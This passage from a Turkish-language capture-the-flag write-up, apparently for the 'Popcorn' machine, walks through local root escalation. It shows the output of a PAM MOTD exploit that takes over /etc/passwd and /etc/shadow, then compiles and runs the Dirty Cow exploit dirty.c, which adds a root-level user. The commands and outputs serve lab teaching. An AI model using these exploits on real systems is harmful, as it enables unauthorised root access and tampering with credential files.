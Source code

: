 Script çalışır ve bir root shell döndürür:

```
www-data@popcorn:/dev/shm$ bash pam_motd.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/dev/shm#
```

### Dirty Cow

Bu kutunun yaşı göz önüne alındığında, burada hedef alınabilecek birkaç çekirdek açığı kesinlikle vardır. Örneğin, `uname -a` komutu 2.6.31 çalıştığını gösteriyor:

```
root@popcorn:/dev/shm# uname -r 
2.6.31-14-generic-pae
```

Muhtemelen [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions) açığına karşı savunmasızdır. Bununla ilgili sayfada bir [dizi kanıt-of-concept (POC)](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) bulunmaktadır. Ben en iyi sonucu `dirty.c` ile aldım. Bu [kodu](https://github.com/FireFart/dirtycow/blob/master/dirty.c) alıp Popcorn üzerinde derleyebilirim:

```
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
```

Now run it:

```
www-data@popcorn:/dev/shm$ chmod +x dirty
www-data@popcorn:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiek5FdMtod.2:0:0:pwned:/root:/bin/bash

mmap: b78a8000
^C
```

Bazı nedenlerden dolayı bazen takılabiliyor. Bir dakika sonra işlemi sonlandıracağım. Ancak, kullanıcı hala ekli kalıyor.

```
www-data@popcorn:/dev/shm$ su - firefart
Password: 
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~#
```

Yani, `firefart` kullanıcısının şifresi **fiek5FdMtod.2** olacaktır.
